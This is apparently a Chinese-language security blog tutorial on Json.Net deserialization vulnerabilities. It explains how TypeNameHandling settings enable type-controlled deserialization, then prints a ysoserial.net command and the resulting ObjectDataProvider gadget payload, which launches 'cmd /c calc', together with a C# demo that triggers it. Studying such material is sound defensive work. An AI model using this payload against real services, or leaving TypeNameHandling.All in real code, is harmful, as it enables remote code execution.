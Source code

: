 # Dot NET-Json.Net反序列化漏洞

  
  
&lt;!--more--&gt;  
## Json.Net基础  
Newtonsoft.Json，是一个开源的Json.Net库，官方地址：  
https://www.newtonsoft.com/json  
在使用Json的时候，开发者很多时候会涉及到几个序列化对象的使用：`DataContractJsonSerializer`、`JavaScriptSerializer`、和`Json.Net`。大多数人会选择`Json.Net`。  
## Json.Net序列化  
在`Newtonsoft.Json`中使用`JSONSerializer`可以实现`.NET`对象与`Json`之间的转化，`JSONSerializer`把`.NET`对象的属性名转换为`Json`数据中的`Key`，把对象的属性值转化为`JSON`数据中的`Value`。  
Demo  
```c#  
using Newtonsoft.Json;  
using System;  
using System.Diagnostics;  
using System.Text;  
using System.Windows.Markup;  
  
namespace JsonDeserialization  
{  
    [JsonObject(MemberSerialization.OptIn)]  
    public class JsonClass   
    {  
        private string classname;  
        private string name;  
        private int age;  
        [JsonIgnore]  
        public string Classname { get =&gt; classname; set =&gt; classname = value; }  
        [JsonProperty]  
        public string Name { get =&gt; name; set =&gt; name = value; }  
        [JsonProperty]  
        public int Age { get =&gt; age; set =&gt; age = value; }  
        public override string ToString()  
        {  
            return base.ToString();  
        }  
        public static void ClassMethod(string value)  
        {  
            Process.Start(value);  
        }  
  
    }  
    class Program  
    {  
        static void Main(string[] args)  
        {  
            JsonClass jsonclass = new JsonClass();  
            jsonclass.Name = &#34;huahua&#34;;  
            jsonclass.Age = 18;  
            jsonclass.Classname = &#34;JsonClass&#34;;  
            string json = JsonConvert.SerializeObject(jsonclass);  
            Console.WriteLine(&#34;Serialized JSON: &#34; &#43; json);  
  
        }  
    }  
}  
```  
并且有三个成员，`Classname`在序列化的过程中被忽略，此外实现了一个静态方法`ClassMethod`启动进程。序列化过程中通过创建对象实例分别给成员赋值。  
```  
Serialized JSON: {&#34;Name&#34;:&#34;huahua&#34;,&#34;Age&#34;:18}  
```  
JSON字符串并没有包含方法`ClassMethod`，因为它是静态方法，不参与实例化的过程。  
JsonSerializerSettings属性  
```  
- NullValueHandling:如果序列化时需要忽略值为NULL的属性，使用JsonSerializerSettings.NullValueHandling.Ignore来实现  
- TypeNameAssemblyFormatHandling:默认情况下Json.NET只使用类型中的部分程序集名称，为了避免在一些环境下不兼容的问题，需要使用到完整的程序集名称，包括版本号、公钥等。JsonSerializerSettings.TypeNameAssemblyFormatHandling.Full  
- TypeNameHandling:控制Json.NET是否在使用$type属性进行序列化包含.NET类型名称，并从该属性读取.NET类型名称以确定在反序列化期间要创建的类型。  
```  
修改代码添加`TypeNameAssemblyFormatHandling.Full`、`TypeNameHandling.ALL`  
```c  
static void Main(string[] args)  
        {  
            JsonClass jsonclass = new JsonClass();  
            jsonclass.Name = &#34;huahua&#34;;  
            jsonclass.Age = 18;  
            jsonclass.Classname = &#34;JsonClass&#34;;  
            string json = JsonConvert.SerializeObject(jsonclass,new JsonSerializerSettings {   
                    TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full,  
                    TypeNameHandling = TypeNameHandling.All,  
            });  
            Console.WriteLine(&#34;Serialized JSON: &#34; &#43; json);  
  
        }  
```  
这样打印的数据中带有完整的程序集名等信息  
```  
Serialized JSON: {&#34;$type&#34;:&#34;JsonDeserialization.JsonClass, ConsoleApp2, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null&#34;,&#34;Name&#34;:&#34;huahua&#34;,&#34;Age&#34;:18}  
```  
## Json.Net反序列化  
反序列化过程就是将Json字符串转换为对象，通过创建一个新对象的方式调用`JsonConvert.DeserializeObject`方法实现的，传入两个参数，第一个参数需要被序列化的字符串、第二个参数设置序列化配置选项来指定`JsonSerializer`按照指定的类型名称处理，其中`TypeNameHandling`可选择的成员分为五种  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506041124643.png)
默认情况下设置为`TypeNameHandling.None`，表示`Json.NET`反序列化期间不读取或写入类型名称。  
### ObjectDataProvider  
漏洞触发点在于`TypeNameHandling`这个枚举值，如果开发者设置为非空值、也就是对象(Objects)、数组(Arrays)、自动识别(Auto)、所有值(ALL)的时候都会造成反序列化漏洞。  
使用`yso`生成  
```powershell  
C:\Users\nlrvana\Desktop\ysoserial.net-master\ysoserial\bin\Release&gt;ysoserial.exe -g ObjectDataProvider -f json.net -c calc  
{  
    &#39;$type&#39;:&#39;System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35&#39;,  
    &#39;MethodName&#39;:&#39;Start&#39;,  
    &#39;MethodParameters&#39;:{  
        &#39;$type&#39;:&#39;System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;,  
        &#39;$values&#39;:[&#39;cmd&#39;, &#39;/c calc&#39;]  
    },  
    &#39;ObjectInstance&#39;:{&#39;$type&#39;:&#39;System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;}  
}  
```  
Demo  
```c#  
using Newtonsoft.Json;  
using System;  
using System.IO;  
  
namespace JsonDeserialization  
{  
    class Program  
    {  
        static void Main(string[] args)  
        {  
            string json = @&#34;{  
    &#39;$type&#39;:&#39;System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35&#39;,  
    &#39;MethodName&#39;:&#39;Start&#39;,  
    &#39;MethodParameters&#39;:{  
        &#39;$type&#39;:&#39;System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;,  
        &#39;$values&#39;:[&#39;cmd&#39;, &#39;/c calc&#39;]  
    },  
    &#39;ObjectInstance&#39;:{&#39;$type&#39;:&#39;System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;}  
}&#34;;  
            JsonConvert.DeserializeObject(json, new JsonSerializerSettings() { TypeNameHandling = TypeNameHandling.All });  
  
        }  
    }  
}  
```  
  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/dot-net-json.net%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/  

